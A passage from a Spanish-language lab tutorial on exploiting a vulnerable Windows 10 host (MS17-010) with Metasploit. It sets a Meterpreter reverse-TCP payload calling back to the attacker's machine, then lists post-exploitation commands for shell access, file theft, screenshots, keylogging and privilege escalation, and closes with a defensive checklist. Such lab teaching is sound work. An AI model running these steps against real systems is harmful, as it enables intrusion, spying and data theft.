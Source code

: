 Configura el objetivo:

```bash
set RHOST 192.168.1.105
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100  # Tu IP de Kali
set LPORT 4444
```

Inicia el exploit:

```bash
exploit
```

---

#### 🐚 Paso 4: Acceso remoto

Si la vulnerabilidad existe y se explota correctamente, obtendrás una **sesión Meterpreter**, que te da acceso completo:

```bash
meterpreter > sysinfo
meterpreter > shell
meterpreter > getuid
```

Podrás incluso:

- Leer archivos (`download`)
- Capturar pantallas (`screenshot`)
- Registrar pulsaciones (`keyscan_start`)
- Escalar privilegios (`getsystem`)

---

### 📚 ¿Qué aprendimos?

Hicimos una prueba controlada de un exploit contra Windows 10 vulnerable usando Metasploit.

---

### 🧹 ¿Cómo protegerse?

| Recomendación          | Descripción                                                |
| ---------------------- | ---------------------------------------------------------- |
| 🔒 Instalar parches    | MS17-010 fue parcheado en 2017                             |
| 🔥 Activar firewall    | Bloquear puerto SMB (445)                                  |
| 🔐 Usar antivirus      | Que detecte payloads tipo Meterpreter                      |
| 🌐 Segmentar redes IoT | Evita que dispositivos inseguros accedan a equipos Windows |
| 👀 Monitorear tráfico  | Detectar conexiones anómalas                               |

---
